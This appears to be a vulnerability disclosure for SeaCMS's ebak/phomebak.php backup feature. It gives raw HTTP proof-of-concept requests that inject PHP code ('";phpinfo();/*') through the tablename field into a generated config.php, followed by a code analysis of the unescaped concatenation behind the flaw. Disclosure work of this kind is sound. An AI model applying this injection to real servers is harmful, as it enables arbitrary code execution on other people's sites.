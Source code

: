13.1 Arbitrary command execution exists in ebak/phomebak.php

vulnerability process



Visit 

/ebak/ChangeDb.php

Come to the following interface

![image-20240821104415493](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821104415493.png)

Click the bottom to start backup capture

POC

```java
POST /p8qca/ebak/phomebak.php HTTP/1.1
Host: seacms:8181
Content-Length: 249
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea&act=b
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM; PHPSESSID=ue9mbk40fljo685p48ijq7nf3j
Connection: keep-alive

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=lll&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=";phpinfo();/*&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```

Modify mypath=lll to the name of the created directory

tablename%5B%5D=";phpinfo();/* is the malicious code

Visit the following page

```java
GET /p8qca/ebak/phome.php?phome=PathGotoRedata&mypath=lll HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/ebak/ChangePath.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM; PHPSESSID=ue9mbk40fljo685p48ijq7nf3j
Connection: keep-alive

```

Successful execution of malicious code

![image-20240821104718306](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821104718306.png)

Code analysis

In phomebak.php, there is the following code

```java
if($phome=="DoEbak")//Initialize the backup table
{
Ebak_DoEbak($_POST);
}
```

We can control the phome parameter, when entering the Ebak_DoEbak method for DoEbak

In this method, there is

```java
$string="<?php 
	\$b_table=\"".$b_table."\";
	".$d_table."
	\$b_baktype=".$add['baktype'].";
	\$b_filesize=".$add['filesize'].";
	\$b_bakline=".$add['bakline'].";
	\$b_autoauf=".$add['autoauf'].";
	\$b_dbname=\"".$dbname."\";
	\$b_stru=".$bakstru.";
	\$b_strufour=".$bakstrufour.";
	\$b_dbchar=\"".addslashes($add['dbchar'])."\";
	\$b_beover=".$beover.";
	\$b_insertf=\"".addslashes($insertf)."\";
	\$b_autofield=\",".addslashes($add['autofield']).",\";
	\$b_bakdatatype=".$bakdatatype.";
	 ?>";
	$cfile=$bakpath."/".$add['mypath']."/config.php";
	WriteFiletext_n($cfile,$string);
```

It can be found that the input b_table, that is, our tablename, is directly concatenated, and $cfile=$bakpath."/".$add['mypath']."/config.php"; that is, the config.php file

Command execution is caused by special input
